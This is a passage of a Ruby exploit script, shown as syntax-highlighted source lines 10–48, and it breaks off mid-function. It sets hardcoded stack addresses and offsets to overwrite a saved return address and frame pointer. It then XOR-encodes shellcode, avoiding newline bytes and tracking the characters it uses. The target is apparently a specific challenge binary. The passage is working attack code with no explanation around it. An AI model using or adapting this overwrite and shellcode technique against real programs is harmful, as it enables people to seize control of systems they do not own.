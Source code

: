 <span class="lnr"> 10 </span><span class="Type">RETURN_OFFSET</span>       = <span class="Type">RETURN_ADDR</span> - <span class="Type">BASE_VULN_ARRAY</span>
<span class="lnr"> 11 </span><span class="Type">REAL_RETURN_ADDR</span>    = <span class="Constant">0x40160E</span>
<span class="lnr"> 12 </span><span class="Type">DESIRED_RETURN_ADDR</span> = <span class="Constant">0x4015AA</span>
<span class="lnr"> 13 </span>
<span class="lnr"> 14 </span><span class="Comment"># And also edit the frame pointer</span>
<span class="lnr"> 15 </span><span class="Type">FP_ADDR</span>         = <span class="Constant">0x7fffffffdf80</span>
<span class="lnr"> 16 </span><span class="Type">FP_OFFSET</span>       = <span class="Type">FP_ADDR</span> - <span class="Type">BASE_VULN_ARRAY</span>
<span class="lnr"> 17 </span><span class="Type">REAL_FP</span>         = <span class="Constant">0x00007fffffffdfb0</span>
<span class="lnr"> 18 </span><span class="Type">DESIRED_FP</span>      = <span class="Constant">0x00007fffffffdfe8</span> + (<span class="Constant">7</span> * <span class="Constant">8</span> * <span class="Type">IS_REAL_TARGET</span>)
<span class="lnr"> 19 </span>
<span class="lnr"> 20 </span><span class="Comment"># This global tracks which characters we use in our shellcode, to avoid</span>
<span class="lnr"> 21 </span><span class="Comment"># influence the histogram values for the important offsets</span>
<span class="lnr"> 22 </span><span class="Identifier">@@used_chars</span> = []
<span class="lnr"> 23 </span>
<span class="lnr"> 24 </span><span class="Comment"># Keep track of how many bytes were printed, so we can print padding after</span>
<span class="lnr"> 25 </span><span class="Comment"># (and avoid changing the size of the stack)</span>
<span class="lnr"> 26 </span><span class="Comment">#</span>
<span class="lnr"> 27 </span><span class="Comment"># I added this because I noticed addresses on the stack shifting relative</span>
<span class="lnr"> 28 </span><span class="Comment"># to each other, a bit, though that may have been sleep-deprived daftness</span>
<span class="lnr"> 29 </span><span class="Identifier">@@n</span> = <span class="Constant">0</span>
<span class="lnr"> 30 </span><span class="rubyDefine">def</span> <span class="Identifier">my_print</span>(str)
<span class="lnr"> 31 </span>  print(str)
<span class="lnr"> 32 </span>  <span class="Identifier">@@n</span> += str.length
<span class="lnr"> 33 </span><span class="rubyDefine">end</span>
<span class="lnr"> 34 </span>
<span class="lnr"> 35 </span><span class="Comment"># Code is 'encrypted' with a simple xor operation</span>
<span class="lnr"> 36 </span><span class="rubyDefine">def</span> <span class="Identifier">encode_shellcode</span>(code)
<span class="lnr"> 37 </span>  buf = <span class="Special">&quot;&quot;</span>
<span class="lnr"> 38 </span>
<span class="lnr"> 39 </span>  <span class="Constant">0</span>.upto(code.length-1) <span class="Statement">do</span> |<span class="Identifier">i</span>|
<span class="lnr"> 40 </span>    c = code[i].ord ^ <span class="Constant">0xFF</span>;
<span class="lnr"> 41 </span>
<span class="lnr"> 42 </span>    <span class="Comment"># If encoded shellcode contains a newline, it won't work, so catch it early</span>
<span class="lnr"> 43 </span>    <span class="Statement">if</span>(c == <span class="Constant">0x0a</span>)
<span class="lnr"> 44 </span>      <span class="Identifier">$stderr</span>.puts(<span class="Special">&quot;</span><span class="Constant">Shellcode has a newline! :(</span><span class="Special">&quot;</span>)
<span class="lnr"> 45 </span>      <span class="Statement">exit</span>
<span class="lnr"> 46 </span>    <span class="Statement">end</span>
<span class="lnr"> 47 </span>
<span class="lnr"> 48 </span>    <span class="Comment"># Increment the histogram for this character</span>